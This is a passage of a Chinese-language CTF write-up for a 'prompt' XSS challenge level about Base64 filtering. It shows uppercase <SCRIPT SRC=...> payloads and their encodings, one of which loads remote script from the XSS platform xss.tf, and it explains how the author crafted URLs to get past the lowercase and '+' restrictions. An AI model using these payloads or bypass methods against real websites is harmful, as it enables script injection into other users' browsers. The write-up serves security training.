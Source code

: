 Base64 编码后是：

`ICA8U0NSSVBUIC8KU1JDICAKPSAKICAKSFRUUFM6WFNTJTJFJTU0JTQ2L1RPSD4KPC9TQ1JJUFQKID4=`

------------

第二个 JS 代码是这样的（注意一个空格、一个换行都不能错）：

```
  <SCRIPT /
SRC  
= 
  
HTTPS:E.XP>
</SCRIPT
 >
```

Base64 编码后是：

`ICA8U0NSSVBUIC8KU1JDICAKPSAKICAKSFRUUFM6RS5YUD4KPC9TQ1JJUFQKID4=`


------------

首先无论是哪个 JS 代码，我都没有直接对 `prompt` 编码，原因很简单，这个 JS 函数不但长度超过了 3 个字符，而且它单独编码后含有小写字母。根据 Base64 编码原理可以知道，编码是每 3 个字符为一组的，这 3 个字符直接决定了局部区域的编码结果。而连续 6 个字符，即使在前面或后面追加其他字符进行错位，始终无法控制中间字符的组合方式。而 `prompt` 作为 JS 函数关键字，是不可能从中间破开或者做大小写变换的，不然即使成功构造了无小写字母的 Base64 编码，解码后也无法执行。

所以我构造的这两个 JS 代码，都借助了 XSS 平台，通过 URL 调用 XSS 平台的 JS 代码，从而实现 `prompt(1)` 的调用。

区别在于，第一个 JS 代码使用的是第三方的 XSS 平台，因为域名、URL 是第三方控制的，所以要使得 URL 在 Base64 编码后能满足条件，就需要运气，主要依赖第三方平台分配了怎样的一个 URL 字符串。

而第二个 JS 则是我在本地搭建的 HTTP 服务器，域名、URL 等等都是我在本地虚构的，换言之我只需要先构造满足条件的 Base64 编码，再反过来配置域名和 URL 就可以了，简单而有效。

接下来就说明一下这两种 JS 代码的构造方法。

------------

### 利用 XSS 平台完成挑战

我使用的 XSS 平台是 [http://xss.tf](http://xss.tf) ，不图什么，只图域名够短，用来构造 Base64 编码时会更简单。

随便创建一个项目，项目代码自定义为 `prompt(1)` 即可。

因为 XSS 平台分配的 URL 都是随机的，所以关键在于分配给我的 URL 能不能用来构造成不含  `a-z` 和  `+` 字符的 Base64 编码。

假如不能，则只能重新创建一个项目以获取另一个 URL 。

很幸运地，我试到第 3 次，就得到了 [http://xss.tf/tOH](http://xss.tf/tOH) 这个 URL ：

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/prompt/Level%2014%20-%20Base64/imgs/05.png)

利用这个 URL ，我不断通过各种试错组合，得到了前面的第一个 JS 代码：

```javascript
  <SCRIPT /
SRC  
= 
  
HTTPS:XSS%2E%54%46/TOH>
</SCRIPT
 >
```
